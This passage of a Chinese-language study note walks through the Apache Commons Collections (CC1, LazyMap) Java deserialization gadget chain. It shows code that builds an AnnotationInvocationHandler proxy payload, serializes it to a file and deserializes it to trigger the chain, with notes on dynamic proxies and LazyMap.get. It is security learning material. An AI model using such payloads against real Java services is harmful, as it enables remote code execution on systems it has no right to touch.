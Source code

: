 ```java
        //通过newInstance()方法实例化对象
        InvocationHandler handler = (InvocationHandler)ctor.newInstance(Retention.class, outmap);
        Map mapProxy = (Map)Proxy.newProxyInstance(LazyMap.class.getClassLoader(),LazyMap.class.getInterfaces(),handler);
        Object instance = ctor.newInstance(Retention.class, mapProxy);

        return instance;
    }
    public static void main(String[] args) throws Exception {
        payload2File(generatePayload(),"obj");
        payloadTest("obj");
    }
    public static void payload2File(Object instance, String file)
            throws Exception {
        //将构造好的payload序列化后写入文件中
        ObjectOutputStream out = new ObjectOutputStream(new FileOutputStream(file));
        out.writeObject(instance);
        out.flush();
        out.close();
    }
    public static void payloadTest(String file) throws Exception {
        //读取写入的payload，并进行反序列化
        ObjectInputStream in = new ObjectInputStream(new FileInputStream(file));
        in.readObject();
        in.close();
    }
}
```
## AnnotationInvocationHandler
```java
Map.Entry<String, Object> memberValue : memberValues.entrySet()
```

触发invoke：
动态代理：动态代理是在运行时动态生成代理类的一种机制，无需手动编写代理类。Java 提供了 java.lang.reflect 包中的 Proxy 类和 InvocationHandler 接口来支持动态代理。通过 Proxy.newProxyInstance 方法创建代理对象，并传入实现了 InvocationHandler 接口的调用处理器。调用处理器中的 invoke 方法会在代理对象的方法调用时被触发
代理的是lazymap，处理器接口时AnnotationInvocationHandler，在调用handler时，this会指向AnnotationInvocationHandler实例，调用方法自动触发invoke。
```java
Object result = memberValues.get(member);
```
get方法
```java
public Object get(Object key) {
        if (!this.map.containsKey(key)) {
            Object value = this.factory.transform(key);
            this.map.put(key, value);
            return value;
        } else {
            return this.map.get(key);
        }
    }
}
```
然后transform触发之前的链子。
## 流程图
![](https://cdn.nlark.com/yuque/0/2023/jpeg/34502958/1684046803938-bc673f60-bf25-44b0-86ec-d1f5aeedf942.jpeg)
# cc6